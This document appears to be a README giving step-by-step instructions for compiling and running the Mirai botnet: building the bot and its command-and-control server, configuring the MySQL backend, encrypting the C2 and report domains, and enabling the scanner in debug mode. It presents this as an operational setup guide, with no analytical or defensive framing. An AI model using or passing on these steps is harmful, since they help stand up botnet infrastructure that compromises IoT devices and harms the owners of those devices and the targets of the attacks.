 #Mirai Setup Instruction

## Step 1: Update and upgrade, 
use root priviledge to make things easier
```
sudo su
apt-get update -y
apt-get upgrade -y
```

## Step 2: run cross-compile.sh 
navigate into the scripts folder  
This script download and compile xcompiler for you.  
See script for detail.
```
cd scripts
./x-compile.sh
```
## Step 3: Install go packages:
```	
go get github.com/go-sql-driver/mysql
go get github.com/mattn/go-shellwords
```

## Step 4: building mirai
Naviage to the mirai folder where the script located  
the output files will be in the debug folder, with cnc and mirai.dbg
```	
./build.sh debug telnet
```

## Step 5: Database setup 
This is for secure database installation
Set up Table and create user  
(read the last line in db.sql, that's the user that we create to log in to cnc)

```
/usr/bin/mysql_secure_installation
cd scripts
mysql -u root -p
-enter password-
source db.sql;
quit;
```

## Step 6: Database continuing
edit main.go file located in ../mirai/cnc  
assuming you set the database password as root

e.g.
```
const DatabaseAddr string   = "127.0.0.1:3306"
const DatabaseUser string   = "root"
const DatabasePass string   = "root"
const DatabaseTable string  = "mirai"
```

## Step 7: to run cnc
1. 
restart mysql: service mysql restart  
navigate to debug foler: cd /mirai/debug  
run the cnc: ./cnc

2. then telnet to access cnc
in windows or ubuntu, use Putty; in Mac, simply telnet in terminal
e.g.
telnet localhost

login credential(set in step 5):  
username: root  
password: root


setup complete
***


##Other configuration:
###table.c:
we need to encrypt cnc-domain and report domain and put it in table.c  
Mirai use this to resovle your domain

run:
```
./enc ip 127.0.0.1 or ./enc string www.example.com 
```
If you want to build the release version, remember to copy promtp.txt into the release folder, because admin.go file reads it, if the file not found, will not create connection.

In debug mode, the scanner is turn-off by default, need to edit it in mian.c:158 , so the scanner can run in debug mode.

**Very Important!!**: use sudo to execute!!! 






